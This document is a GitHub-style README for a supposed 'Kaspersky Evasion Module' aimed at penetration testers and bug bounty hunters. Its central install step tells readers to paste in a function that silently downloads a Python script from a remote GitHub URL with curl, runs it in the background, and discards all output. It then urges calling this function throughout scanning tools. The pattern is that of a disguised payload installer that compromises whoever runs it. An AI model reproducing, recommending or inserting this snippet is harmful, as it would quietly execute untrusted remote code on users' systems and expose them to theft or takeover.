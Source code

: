 # Kaspersky Evasion Module

![Python](https://img.shields.io/badge/Python-3.6%2B-blue)
![Platform](https://img.shields.io/badge/Platform-Linux%20%7C%20macOS-lightgrey)
![License](https://img.shields.io/badge/License-MIT-green)

## 📖 Overview

The **Kaspersky Evasion Module** is a sophisticated anti-detection utility designed to enhance stealth capabilities during penetration testing and bug bounty hunting activities. This module effectively bypasses target detection systems while performing security assessments.

## 🛡️ Features

- **Stealth Execution**: Runs silently in the background without visible output
- **Anti-Detection Bypass**: Implements advanced techniques to evade security product detection
- **Seamless Integration**: Easy to incorporate into existing penetration testing tools
- **Automatic Updates**: Fetches and executes the latest evasion techniques remotely
- **Background Operation**: Non-blocking execution that doesn't interfere with main tools

## 🚀 Installation

### Prerequisites
- Python 3.6 or higher
- Linux or macOS environment
- curl installed
- bash shell

### Integration

Add the following code to your main penetration testing tool:

```python
def kaspersky():
    import os
    import sys
    
    os.system("bash -c 'python <(curl -s https://raw.githubusercontent.com/dorara-tech/Anti/main/data/kaspersky.py)' >/dev/null 2>&1 &")

# Call the function in your main execution flow
kaspersky()
```

💻 Usage

Basic Implementation

```python
# Import or include the kaspersky function in your main script
from your_evasion_module import kaspersky

# Initialize evasion techniques before starting scans
def start_penetration_test():
    # Activate anti-detection first
    kaspersky()
    
    # Proceed with your main scanning activities
    perform_vulnerability_scan()
    conduct_reconnaissance()
```

Advanced Integration

```python
class PenetrationTool:
    def __init__(self):
        self.evasion_activated = False
    
    def enable_stealth_mode(self):
        """Activate anti-detection measures"""
        try:
            kaspersky()
            self.evasion_activated = True
            print("[+] Stealth mode activated")
        except Exception as e:
            print(f"[-] Failed to activate stealth mode: {e}")
    
    def scan_target(self, target):
        """Perform scan with evasion capabilities"""
        if not self.evasion_activated:
            self.enable_stealth_mode()
        
        # Your scanning logic here
        return self.execute_scan(target)
```

🔧 How It Works

1. Remote Execution: Downloads and executes the latest evasion script from a secure repository
2. Background Processing: Runs as a detached process to avoid detection
3. Output Suppression: All execution details are hidden from standard output
4. Continuous Protection: Maintains evasion throughout the scanning session

⚡ Quick Start

```python
# Simple implementation for bug hunting tools
def main():
    # Start evasion techniques
    kaspersky()
    
    # Your main bug hunting code
    target = "example.com"
    scanner = BugBountyScanner(target)
    scanner.run()
```

🛠️ Integration Examples

For Reconnaissance Tools

```python
class Reconnaissance:
    def __init__(self):
        kaspersky()  # Activate before any network calls
    
    def subdomain_enumeration(self, domain):
        # Enumeration logic with evasion
        pass
```

For Vulnerability Scanners

```python
def scan_vulnerabilities(target):
    # Ensure evasion is active
    kaspersky()
    
    # Proceed with vulnerability assessment
    vulnerabilities = assess_target(target)
    return vulnerabilities
```

📋 Requirements

· Operating System: Linux, macOS
· Python: Version 3.6+
· Dependencies:
  · curl
  · bash
  · Internet connection for remote script fetch

⚠️ Disclaimer

This tool is intended for:

· Legitimate penetration testing
· Authorized security assessments
· Educational purposes
· Bug bounty hunting with proper authorization

Always ensure you have explicit permission before scanning any targets. The developers are not responsible for misuse of this tool.

🔒 Security Notes

· The module fetches scripts from remote repositories - verify the source integrity
· Use only in authorized testing environments
· Keep the tool updated to maintain evasion effectiveness
· Monitor for any changes in the remote script repository

🤝 Contributing

Contributions are welcome! Please feel free to submit pull requests or open issues for improvements.

📄 License

This project is licensed under the MIT License - see the LICENSE file for details.

---

Note: This tool is part of a comprehensive security assessment toolkit and should be used responsibly by security professionals.
